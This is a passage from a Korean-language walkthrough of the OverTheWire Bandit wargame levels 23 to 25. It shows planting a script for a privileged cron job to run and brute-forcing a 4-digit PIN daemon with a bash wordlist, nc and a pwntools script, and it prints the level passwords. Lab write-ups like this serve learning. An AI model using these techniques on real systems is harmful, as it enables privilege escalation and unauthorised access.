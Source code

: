 

잘 저장한 뒤, bandit24 유저 권한으로 실행될 수 있도록 파일의 권한을 수정해주어야 한다. __chmod__ 명령어를 이용하여 대충 777로 준다. 하고 cronjob_bandit24.sh가 실행되길 기다리면 된다.

```shell
bandit23@bandit:/var/spool/bandit24$ chmod 777 tttt.sh
bandit23@bandit:/var/spool/bandit24$ ls -al tttt.sh
-rwxrwxrwx 1 bandit23 bandit23 118 Feb 28 02:51 tttt.sh
bandit23@bandit:/var/spool/bandit24$ ls -al tttt.sh
ls: cannot access 'tttt.sh': No such file or directory
bandit23@bandit:/var/spool/bandit24$ cat /tmp/TTTT
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```





### bandit24 -> bandit25

> A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.



```shell
bandit24@bandit:/tmp/TT$ cat tttt.sh 
#!/bin/bash

b24Passwd="UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"

for i in {0..9}{0..9}{0..9}{0..9}; do
	echo $b24Passwd $i >> wordlist
done

bandit24@bandit:/tmp/TT$ cat wordlist | nc localhost 30002 > ./resp
bandit24@bandit:/tmp/TT$ grep -v Wrong ./resp 
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

Exiting.

```

자꾸 중간에 타임아웃이 걸려서 짜증났는데, 두 번정도 나누어서 하니까 됨. timeout 문제가 생기면 wordlist를 0000~5000, 5000~9999로 나누어서 시도해봅시다.

아래는 python script. 근데 너무너무 느림.

```python
bandit24@bandit:/tmp/TT$ cat bf.py 
#!/usr/bin/python

from pwn import *

r = remote('127.0.0.1', 30002)

b24 = "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"
r.recvuntil('\n')
for i in range(5000, 10000):
    message = b24 + ' ' + str(i).zfill(4)
    print 'trying {}...'.format(message)
    r.sendline(message)
    resp = r.recvuntil('\n')
    if resp.find('Wrong') == -1 :
        break

```
